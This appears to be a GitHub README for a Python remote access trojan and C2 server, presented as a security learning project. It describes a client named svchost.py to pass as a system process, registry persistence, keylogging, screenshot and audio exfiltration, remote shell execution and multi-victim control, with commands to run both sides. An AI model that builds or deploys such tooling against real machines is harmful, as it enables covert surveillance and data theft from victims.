

# kast-c2
> ⚠️ **Educational purposes only.** This project was built to study offensive security concepts — C2 architecture, socket communication, persistence mechanisms, and data exfiltration techniques. Do not use against systems you do not own or have explicit permission to test. The author takes no responsibility for misuse.
---
A Python-based Remote Access Trojan with a C2 (Command & Control) infrastructure, built as a cybersecurity learning project. This is a work in progress.

## Motivation
Understanding how offensive tools work is fundamental to defending against them. This project was built to study:
- How RATs establish and maintain connections to a C2 server
- How data is exfiltrated over raw sockets
- How malware persists across reboots via the Windows registry
- How a C2 server manages multiple victims and logs activity

## Architecture


The project has two sides:

**Client (`svchost.py`)** — runs on the victim machine. Connects back to the C2 server, collects system information, and waits for commands.

**Server (`server.py`)** — runs on the attacker machine. Accepts incoming connections from multiple victims simultaneously, stores victim data in SQLite, and dispatches commands.

## Protocol
All communication uses a structured binary protocol:
```
TYPE|LENGTH|EXTRA|KEY_B64\n
[LENGTH bytes of payload]
```
- `TYPE` — packet type (`TEXT`, `PNG`, `WAV`, `TMP`, `CWD`)
- `LENGTH` — payload size in bytes
- `EXTRA` — filename or path (for files), `none` for text
- `KEY_B64` — base64-encoded Fernet key (empty for plaintext)

## Features
### Implemented
- [x] TCP socket-based C2 connection
- [x] Structured binary protocol with encryption support
- [x] System info collection (hostname, IP, OS, platform)
- [x] Windows registry persistence with fallback to Startup folder
- [x] Self-copy to `AppData` before registry entry
- [x] Screenshot capture and exfiltration (encrypted)
- [x] Keylogger (runs in parallel thread, dumps to hidden file)
- [x] Audio recording and exfiltration (encrypted)
- [x] Shell command execution with directory state (`cd` updates prompt)
- [x] Self-destruction
- [x] C2 server with SQLite victim persistence
- [x] **Multi-victim support** — handle multiple concurrent connections
- [x] **Victim selection** — switch between victims with commands

### In progress
- [ ] File download command
- [ ] Reconnection logic

## Usage

### Server (`server.py`)
```bash
python server.py --host 0.0.0.0 --port 4444
```

Once a victim connects:
```
[victim_abc123] ~ > @vics
  - victim_abc123
  - victim_def456

[victim_abc123] ~ > @victim_def456
[i] Switched to victim_def456

[victim_def456] /tmp > screenshot
[i] Connected: 192.168.1.100:54321 (victim_def456)
```

**Commands:**
- `@vics` — list all connected victims
- `@victim_id` — switch to another victim
- `screenshot` — capture victim's screen
- `audio` — record 10 seconds of audio
- `keylog` — collect keystrokes for 60 seconds
- `cd path` — change directory and update prompt
- Any shell command — execute and return output
- `kill` — self-destruct victim client

### Client (`svchost.py`)
```bash
python svchost.py --host <c2_server_ip> --port 4444
```

The client:
1. Copies itself to `AppData/Microsoft/Windows/`
2. Registers in Windows registry or Startup folder
3. Connects to C2 server
4. Waits for incoming commands
5. Exfiltrates data back to server

## Project Structure
```
kast-c2/
├── svchost.py      # RAT client (victim side)
├── server.py       # C2 server (attacker side)
├── db.py           # SQLite helpers
└── loot/           # Exfiltrated data (gitignored)
    └── [victim_id]/
        ├── screenshots/
        ├── audios/
        └── keylogs/
```

## Implementation Details

### Multi-Victim Threading
Each victim connection runs in a separate daemon thread. A shared `victims` dictionary stores connection state:
```python
victims = {
    'victim_id': {
        'conn': socket,
        'addr': (ip, port),
        'cwd': current_directory,
        'base': storage_path
    }
}
```

All access to this dictionary is protected with `threading.Lock()` to prevent race conditions.

### Encryption
Screenshots, audio, and keystroke logs are encrypted with Fernet (symmetric encryption). Text output from shell commands is sent plaintext for readability.

## Environment
Tested on Windows. Developed and studied in a controlled local lab using Docker with isolated networks.

---
*Part of a personal cybersecurity studies portfolio.*
